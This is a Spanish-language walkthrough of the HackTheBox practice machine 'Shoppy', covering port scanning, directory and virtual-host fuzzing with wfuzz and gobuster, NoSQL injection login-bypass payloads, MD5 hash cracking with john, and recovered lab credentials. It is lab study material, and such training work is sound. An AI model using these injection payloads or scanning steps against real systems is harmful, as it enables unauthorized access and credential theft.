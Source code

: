 # Shoppy HTB


Primero que nada nos damos cuenta que tiene 3 puerto abiertos

```
nmap -sSV --open -vvv IP
nmap -sC -p 22,80,9093 IP
```

Esto re direcciona a shoppy.htb lo cual nos da indicios de que podria utilizar vhosting

# Fuzzing

```
wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt  http://shoppy.htb/FUZZ 
```


# Vhost Discovery

Virtual hosting es la capacidad de tener varios subdominos ( *.example.com ) en un mismo servidor 

>El virtualhost, o servidor virtual, es una forma de alojamiento web que permite que varias páginas web puedan funcionar en una misma máquina. Hay dos tipos de virtualhost:

Los que se basan en direcciones IP, donde cada página web tendrá una IP diferente.
***Los que se basan en nombres de dominio, donde una sola dirección IP funcionan varias páginas web.***

Aunque el navegador tendrá que diferenciar el tipo de virtualhost a la hora de gestionar la petición, la elección de una u otra no tiene ningún efecto para el usuario.

## WFUZZ

Para encontrar subdominios cuando sospechamos que se esta usando esta tecnica se fuzzea la header Host en busca de un resultado valido lo que indica un subdominio

```

wfuzz -c --hc=404,301 -t 200 -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -H "Host: FUZZ.shoppy.htb" http://shoppy.htb/ 

```

## Gobuster

```
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u http://shoppy.htb 
Funciona tambien asi 
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 500 -u shoppy.htb
Tambien asi solo lee bien el output
gobuster vhost -w /opt/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb 
```

Encontramos un logging

# No SQL Inyection

De alguna u otra manera ( la cual no entiendo aun) nos dimos cuenta que es una base de datos No SQL MongoDB intentamos unos payloads sencillos.

```
admin'||'1==1
admin'||'1=1
```

Y cualquiera de esos jala. Entramos


# Hash

Ya dentro pues si estas con el usuario admin lo mas logico es que buscaras ese no¿?

```
EL password del usuario admin
hash-identifier
john --format=raw-md5 -w $(locate rockyou.txt)  hashes

admin
emerald 

```

Pero que crees si vuelves a probar una inyeccion te manda no solo el hash de admin si no un usuario josh

```
josh 

remembermethisway

```






















































